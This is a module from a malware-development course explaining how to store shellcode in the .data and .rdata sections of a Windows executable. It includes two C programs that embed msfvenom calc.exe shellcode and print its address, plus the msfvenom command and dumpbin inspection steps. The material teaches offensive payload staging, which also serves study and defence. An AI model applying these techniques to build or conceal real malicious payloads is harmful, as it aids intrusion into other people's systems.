 13. Payload Placement - .data & .rdata Sections# [**13. Payload Placement - .data & .rdata Sections**](https://maldevacademy.com/modules/13)

## **Payload Placement - .data & .rdata Sections**

### **Introduction**

As a malware developer, one will have several options as to where the payload can be stored within the PE file. Depending on the choice, the payload will reside in a different section within the PE file. Payloads can be stored in one of the following PE sections:

* `.data`
* `.rdata`
* `.text`
* `.rsrc`

This module demonstrates how to store payloads in the `.data` and `.rdata` PE sections.

### **.data Section**

The `.data` section of a PE file is a section of a program's executable file that contains initialized global and static variables. This section is readable and writable, making it suitable for an encrypted payload that requires decryption during runtime. If the payload is a global or local variable, it will be stored in the `.data` section, depending on the compiler settings.

The code snippet below shows an example of having a payload stored in the `.data` section.


```
#include <Windows.h>#include <stdio.h>// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .data saved payload
unsigned char Data_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Data_RawData var : 0x%p \n", Data_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}


```
The image below shows the output of the above code snippet in xdbg. Make note of a few items within the image:

1. The .data section starts at the address `0x00007FF7B7603000`.
2. The `Data_RawData`'s base address is `0x00007FF7B7603040` which is an offset of `0x40` from the .data section.
3. Note the memory protection of the region is specified as `RW` which indicates it is a read-write region.[![](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/data-section.png)](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/data-section.png)### **.rdata Section**

Variables that are specified using the `const` qualifier are written as constants. These types of variables are considered "read-only" data. The letter "r" in `.rdata` indicates this, and any attempt to change these variables will cause access violations. Furthermore, depending on the compiler and its settings, the `.data` and `.rdata` sections may be merged, or even merged into the `.text` section.

The code snippet below shows an example of having a payload stored in the `.rdata` section. The code will essentially be the same as the previous code snippet except the variable is now preceded by the `const` qualifier.


```
#include <Windows.h>#include <stdio.h>// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .rdata saved payload
const unsigned char Rdata_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Rdata_RawData var : 0x%p \n", Rdata_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}

```
The image below shows the output of running [dumpbin.exe](https://learn.microsoft.com/en-us/cpp/build/reference/dumpbin-reference?view=msvc-170) on the PE file. Installing Visual Studio's C++ runtime will automatically download dumpbin.exe.

Command: `dumpbin.exe /ALL <binary-file.exe>`

Scroll down and view the details of the `.rdata` section which contains the data stored in its raw binary format.

[![](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/dumpbin-1.png)](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/dumpbin-1.png)Scrolling down further shows the allocated payload which is highlighted in the image below.

[![](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/dumpbin-2.png)](13%20Payload%20Placement%20-%20data%20&%20rdata%20Sections%20d402fbf89962436285694d655c54d6c3/dumpbin-2.png)
